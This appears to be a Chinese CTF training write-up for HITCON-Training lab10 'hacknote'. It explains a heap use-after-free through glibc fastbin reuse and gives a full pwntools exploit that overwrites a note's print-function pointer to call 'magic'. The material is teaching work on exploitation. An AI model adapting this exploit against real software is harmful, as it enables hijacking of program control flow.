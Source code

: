 ```yaml
---
title: lab10_hacknote
date: 2019-07-13
categories: 
- hitcon_trainning
tags: heap uaf
---
```



# 堆漏洞-UAF

全称 use after free，是在free之后指针没有置NULL留下的漏洞。这就导致之前的指针还可以控制这块内存。

这道题利用的是内存分配机制的fastbins。   

## fastbins

fastbins也是一个bins，和smallbins和unsortbins不同的是，放入其中的chunk使用标志位P不会被置0，在非特定场合下是不会触发合并操作的。    
小于max_fast（默认是64B）的chunk都会被放到其中，使用时为 **<font style="font-size:20px"> 精确匹配、先进后出</font>**


# 思路

本来就是打pwn苦手，搞堆真的更加难受[留下心酸泪水]   

这道题做第二次了，寒假集训的时候也做了。但谁能想到，第二次做的时候仍旧是较为懵逼。  

> 这道题在ctfwiki上有详细解释。
   

这道题里面，notelist中每一个元素大小是8B，前4B是一个打印函数地址，后4B是用来存放content的地址。   

<font style="font-size:10px"> ps:以下都没有考虑chunk的控制域大小 </font>

在申请notelist[0]、notelist[1]，content的大小不为8B就可以，<font style="font-size:10px"> [chunk会自动对齐到8B,所以不能比8B小] </font>
之后del，fastbins中8B的bin中就有了两个chunk。   

申请notelist[2]时将content的大小设置为8，那么在分配的时候，notelist[1]原本的chunk给了notelist[2],notelist[0]原本的chunk给了notelist[2]的content。所以就可以控制notelist[0]的打印函数地址。  


# exp 

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['deepin-terminal','-x','sh','c']

sh = process('./hacknote')
elf = ELF('./hacknote')

magic_addr=elf.symbols['magic']

#gdb.attach(sh)

def add_note(sz,content):
    sh.sendlineafter('choice :','1')
    sh.sendlineafter('size :',str(sz))
    sh.sendlineafter('Content :',content)

def del_note(index):
    sh.sendlineafter('choice :','2')
    sh.sendlineafter('Index :',str(index))

def print_note(index):
    sh.sendlineafter('choice :','3')
    sh.sendlineafter('Index :',str(index))

add_note(16,'aaaa')
add_note(16,'aaaa')
del_note(0)
del_note(1)

payload = p32(magic_addr)
add_note(8,payload)
print_note(0)

sh.interactive()
sh.close()
```
